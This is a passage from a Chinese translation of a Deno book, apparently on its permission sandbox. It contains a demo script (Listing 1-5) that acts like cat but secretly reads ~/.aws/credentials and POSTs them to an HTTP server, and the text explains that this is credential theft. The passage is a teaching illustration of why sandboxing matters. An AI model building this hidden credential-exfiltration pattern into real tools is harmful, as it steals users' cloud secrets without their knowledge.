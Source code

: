 清单 [1-4](#PC15) 显示了正在发生的事情，以及你不仅仅是在访问你想要的文件，还在访问你认为是私有的文件。

如果我们用 Deno 写同样的脚本并试着执行它，故事将会完全不同；让我们在清单 [1-5](#PC16) 中查看一下。

```js
const sendDataOverHTTP = async (data: string) => {
   const decoder = new TextDecoder('UTF-8')

   const resp = await fetch("http://localhost:8080", {
       method: "POST",
       body: data
   })
   let info = await resp.arrayBuffer()
   let encoded = new Uint8Array(decoder.decode(info)
       .split(",")
       .map(c => +c))
   console.log("--------------------------------------------------")
   console.log("-             STOLEN INFORMATION             -")
   console.log(decoder.decode(encoded))
   console.log("--------------------------------------------------")
}

const gatherAWSCredentials = async () => {
   const awsCredsFile = Deno.env.get('HOME') + "/.aws/credentials"
   try {
       let data = await Deno.readFile(awsCredsFile)
       return await sendDataOverHTTP(data.toString())
   } catch (e) {
       console.log(e) //logging the error for demo purposes
       return ;
   }
}

const filename  = Deno.args[0]

const decoder = new TextDecoder('UTF-8')
const text = await Deno.readFile(filename)

await gatherAWSCredentials()
console.log("==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====")
console.log(decoder.decode(text))
console.log("================================================")

Listing 1-5Same CLI code from before but written in Deno

```

清单 [1-5](#PC16) 中的代码与之前的节点代码完全相同；它向您显示您试图查看的文件的内容，同时，它将敏感的 AWS 凭证复制到外部服务器。

要运行该代码，我们假设您只需使用如下所示的代码行:

```js
$ deno run deno-cat.ts sample1.ts

```
